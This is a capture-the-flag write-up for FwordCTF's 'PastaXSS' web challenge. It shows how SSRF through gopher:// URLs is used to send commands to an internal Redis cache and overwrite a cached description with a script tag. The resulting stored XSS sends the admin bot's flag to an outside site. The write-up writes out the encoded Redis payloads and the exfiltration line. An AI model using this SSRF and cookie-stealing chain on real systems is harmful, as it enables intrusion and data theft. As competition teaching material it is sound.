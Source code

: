 # PastaXSS - 5 solves

## Information

The task was provided with source code and had many php files but here are important stuff.
### Markdown in jutsus description

The code that implemented markdown used `htmlspecialchars` with `redis` for caching and [knp-markdown-bundle](https://github.com/KnpLabs/KnpMarkdownBundle) as markdown conversion. 

![writeup1](imgs/writeup1.png)
### Redis
`redis` is used for caching jutsu descriptions and it's address was `redis://redis`.

All jutsus had id, And each jutsu, has it's description in cache with following format.

`jutsu(jutsuID)`

### CURL
Also There was functionality in challenge that let us to import jutsu with curl. 

![writeup2](imgs/writeup2.png)

### Report to admin bot

We could send our jutsu link to admin bot and he would visit it with flag in his cookies.

The bot was implemented with `PhantomJS` and was only accepting urls that match following regex.

`/^http://web1.fword.wtf/jutsu/\d*$/` 

## Part 1 - Gopher

Gopher is so useful for SSRF attacks and lets you to attack some juicy stuff like [databases](https://tarun05blog.wordpress.com/2018/02/05/ssrf-through-gopher/) or [uWSGI servers](https://zaratec.github.io/2018/12/20/rwctf2018-magic-tunnel/).

Gopher is going to help us much for exploiting `redis`.

## Part 1 - Exploit redis with SSRF
   
There was blacklist filtering that prevented us from using `file` and few other things.


fortunately `redis` hostname was not filtered so we could communicate with it. 

Executing commands on `redis` with `gopher`, is easier than it sounds like. The following principle worked for this SSRF attack. 

` curl 'gopher://redis:6379/_urlencode(command)'` 

So we could grab all keys with this url.

`gopher://redis:6379/_KEYS%20%2A`

Which resulted to:

![writeup3](imgs/writeup3.png)

## Part 2 - Change our jutsu description with SSRF

So lets try to change our jutsu description with SSRF to redis.

We know that our jutsu description is in cache and also we have it's name. All jutsus that set in redis from php are prefixed with `yLAP6wFwIy:`, which i guess it's for namespacing.

We could like grab our jutsu 5598 description with this url:

`gopher://redis:6379/_GET%20yLAP6wFwIy%3Ajutsu5598`

Which result to

`$24 s:16:"<p>sdfsdfsf</p> ";`

This is our php serialized jutsu description <b>after</b> conversion to markdown. what we set here won't go though `htmlspecialchars` and markdown conversion xD. 

So to change jutsu's description to something like `itworked`, we should set `yLAP6wFwIy:jutsu5598` to php serialized format of `itworked` which is `s:8:"itworked";`.

This url would do the job.

`gopher://redis:6379/_SET%20yLAP6wFwIy%3Ajutsu5598%20%27s%3A8%3A%22itworked%22%3B%27`

> We can wrap our set value in quotes or single quotes to avoid some parsing problems. 

### part 3 - XSS in jutsu

So we can inject description in our jutsu and bypass `htmlspecialchars`. The next step would be put xss payload in our jutsu's description and report it to admin and grab flag.

We used following url to put payload in our jutsu.

`gopher://redis:6379/_SET%20yLAP6wFwIy%3Ajutsu5598%20%27s%3A81%3A%22%3Cscript%20src%3D%22URL%22%3E%3C%2Fscript%3E%22%3B%27`

And we put `document.location="https://yourwebsite/?a="+flag` in our embedded script. 

Reported our jutsu to admin, And we got the flag.

>FLAG: FwordCTF{Y0u_Only_h4vE_T0_cH4in_4nd_Th1nk_w3ll}

Thanks to my amazing teammates and ctf authors.
